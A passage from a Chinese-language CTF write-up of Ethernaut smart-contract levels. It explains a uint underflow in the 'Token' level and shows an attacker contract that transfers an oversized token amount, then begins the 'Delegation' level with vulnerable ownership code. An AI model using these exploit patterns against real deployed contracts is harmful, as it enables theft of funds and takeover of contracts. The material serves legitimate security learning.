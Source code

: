 ```solidity
}
```

### 分析

uint整数溢出，不会小于0。

exp:

```solidity
pragma solidity ^0.6.0;


interface IToken {
    function transfer(address _to, uint256 _value) external returns (bool);
}

contract Token {
    address levelInstance;

    constructor(address _levelInstance) public {
        levelInstance = _levelInstance;
    }

    function claim() public {
        IToken(levelInstance).transfer(msg.sender, 999999999999999);
    }
}
```

## delegation

### 题目

成为合约的owner

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }
```